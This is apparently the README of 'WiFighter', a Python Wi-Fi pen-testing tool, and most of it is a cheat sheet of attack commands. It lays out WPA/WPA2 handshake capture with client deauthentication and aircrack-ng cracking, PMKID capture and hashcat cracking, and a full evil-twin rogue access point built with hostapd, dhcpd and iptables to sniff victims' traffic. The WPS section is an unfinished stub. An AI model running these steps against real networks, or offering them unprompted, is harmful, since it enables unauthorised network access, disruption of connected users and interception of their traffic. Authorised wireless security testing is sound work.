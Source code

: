 # WiFighter
Easy-to-use WiFI pen-testing/scanning tool written in python

--------------------------------------------------------------------

## Installation 

**Dependencies**
```sh
sudo zypper in python3 aircrack-ng ...
```

**Creating python virtual enviroment**

Clone the project
```sh
git clone https://github.com/FilipStruhar/WiFighter.git
```

Enter the project folder
```sh
cd WiFighter
```

Create virtual enviroment
```sh
python3 -m venv venv
```

Enter the virtual enviroment
```sh
source venv/bin/activate
```

Install python modules (prettytable, psutil, scapy) 
```sh
pip3 install -r requirements.txt
```

Exit from virtual enviroment
```sh
deactivate
```

Run the tool
```sh
sudo ./wifighter.py
```

--------------------------------------------------------------------

## Bugs & Notes
- monitor start listen command error still switches the NIC to monitor

## Future visions
- choose more wordlists for cracking
- Utilize hashcat & xctools - HW acc. cracking & generating wordlists, conversions?

--------------------------------------------------------------------

## REMEMBER !!
- create requirements.txt
- dependencies and install script

--------------------------------------------------------------------

### 1. WPA/WPA2 Handshake Crack using aircrack-ng

**Monitor mode**

Set interface to monitor
```sh
sudo airmon-ng start <INTERFACE>
```

Set interface to managed
```sh
sudo airmon-ng stop <INTERFACE>mon
```

**Scan nearby WiFi's**

Scan all
```sh
sudo airodump-ng <INTERFACE>mon
```

Scan 2.4GHz WiFi's
```sh
sudo airodump-ng --band gb <ESSID> <INTERFACE>mon
```

Scan 5GHz WiFi's
```sh
sudo airodump-ng --band a <ESSID> <INTERFACE>mon
```

**Capture handshake**

Listen for handshake of specified AP
```sh
sudo airodump-ng -c <CHANNEL> --bssid <BSSID> -w <OUTPUT_FILE> <INTERFACE>mon
```

**Deauth clients (force handshake)**

Deauth all (broadcast)
```sh
sudo aireplay-ng -0 1 -a <BSSID> <INTERFACE>mon
```

Deauth client
```sh
sudo aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>mon
```

Verify captured handshake
```sh
sudo aircrack-ng <HANDSHAKE>.cap 
```

**Crack handshake**

```sh
sudo aircrack-ng -w <WORDLIST> -b <TARGET_AP_MAC> <HANDSHAKE>.cap
```

--------------------------------------------------------------------

### PMKID Attack
Compile needed hcxtools & install it's dependencies
```sh
git clone https://github.com/ZerBea/hcxtools.git
cd hcxtools

sudo zypper in *gcc *libopenssl3 libopenssl-devel *libz1 *libz-devel *libcurl4 libcurl-devel *pkgconf-pkg-config

sudo make install


git clone https://github.com/ZerBea/hcxdumptool.git  # Install version 6.2.6
cd hcxdumptool

sudo make install
```

Install and setup hashcat
```sh
sudo zypper in hashcat pocl
```


Put wireless NIC into monitor
```sh
wifighter start <INTERFACE>
```

Capture PMKID
```sh
sudo hcxdumptool -o <OUTPUT_CAPTURE_FILE> -i <INTERFACE> -c <CHANNEL> --enable_status=3 --filtermode=2 --filterlist_ap=<TARGET_AP_MAC>
```

Convert capture into the hash format
```sh
hcxpcapngtool -o <OUTPUT_PMKID_HASH_FILE> <CAPTURED_PMKID>
```

Crack the PMKID
```sh
sudo hashcat -D 1 -a 0 -m 22000 <PMKID_HASH_FILE> <WORDLIST> -o <OUTPUT_FILE>
```

--------------------------------------------------------------------

### Evil Twin

**-MITM/Sniffer- Mode**

Install dependencies
```sh
sudo zypper in hostapd dhcp-server iptables
```

Set dhcp server's listenning interface
```sh
nano /etc/sysconfig/dhcpd 
```
```sh
DHCPD_INTERFACE="<EVIL_AP_INTERFACE>"
```

Set dhcp server's configuration
```sh
nano /etc/dhcpd.conf
```
```sh
option domain-name "local";
option domain-name-servers 8.8.8.8, 8.8.4.4;
default-lease-time 600;
max-lease-time 7200;
subnet 192.168.100.0 netmask 255.255.255.0 {
    range 192.168.100.2 192.168.100.254;
    option subnet-mask 255.255.255.0;
    option routers 192.168.100.1;
    option broadcast-address 192.168.100.255;
}
```

Set evil AP's configuration
```sh
nano /etc/hostapd.conf
```
```sh
interface=<EVIL_AP_INTERFACE>
driver=nl80211

ssid=<SSID>
channel=1

hw_mode=g
ieee80211n=1
wme_enabled=1
macaddr_acl=0
auth_algs=1
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_passphrase=<PASSWORD>
rsn_pairwise=CCMP
```

Configure evil AP's interface
```sh
sudo ip addr add 192.168.100.1/24 dev <EVIL_AP_INTERFACE>
```

Enable internet connection for clients
```sh
sudo iptables -t nat -A POSTROUTING -s 192.168.100.0/24 -o <INTERNET_INTERFACE> -j MASQUERADE

sudo iptables -A FORWARD -i <EVIL_AP_INTERFACE> -o <INTERNET_INTERFACE> -j ACCEPT

sudo iptables -A FORWARD -i <INTERNET_INTERFACE> -o <EVIL_AP_INTERFACE> -m state --state RELATED,ESTABLISHED -j ACCEPT

sudo tee | echo 1 > /proc/sys/net/ipv4/ip_forward
```

Prevent NetworkManager from managing the evil ap's interface
```sh
sudo nmcli dev set <EVIL_AP_INTERFACE> managed no
```

Start the fake AP
```sh
systemctl restart dhcpd
systemctl restart hostapd
```

Sniff <EVIL_INTERFACE> traffic using tshark/wireshark/tcpdump...
<br><br>

**-Captive portal- mode**



--------------------------------------------------------------------

### WPS Attack - Reaver
Dependencies
```sh
sudo zypper in aircrack-ng
```
```sh
pixiewps - GitHub
```
```sh
libpcap - Repo
```

--------------------------------------------------------------------